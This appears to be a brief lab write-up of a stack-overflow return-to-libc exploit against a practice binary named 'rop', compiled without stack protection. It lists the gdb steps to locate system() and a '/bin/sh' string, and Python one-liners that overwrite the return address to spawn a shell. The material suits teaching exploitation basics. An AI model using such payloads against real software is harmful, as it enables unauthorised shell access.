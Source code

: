 *Try and smash stack*

    cat <(python -c 'print "A"*140') - | ./rop

gives *** stack smashing detected ***: ./rop terminated

Use flag ""-fno-stack-protector" for compilation.

*Find <system> call*

    gdb rop
    (gdb) break main
    (gdb) run
    (gdb) print system

$1 = {<text variable, no debug info>} 0x7ffff7a52390 <__libc_system>
little endian representation of the adress is \x90\x23\xa5\xf7\xff\x7f

So to jump to system call we can do:
cat <(python -c 'print "\x00"*140+"\x90\x23\xa5\xf7\xff\x7f"') - | ./rop

*Find "/bin/sh" string in system library*

    (gdb) break main
    (gdb) run
    (gdb) print &system
    (gdb) find &system,+9999999,"/bin/sh"

Returned address is: 0x7ffff7b99d17

*Finale*
cat <(python -c 'print "\x00"*140 + "\x90\x23\xa5\xf7\xff\x7f" + "\x01"*8 + "\x17\x9d\xb9\xf7\xff\x7f" + "\x5c\x6e"') - | ./rop
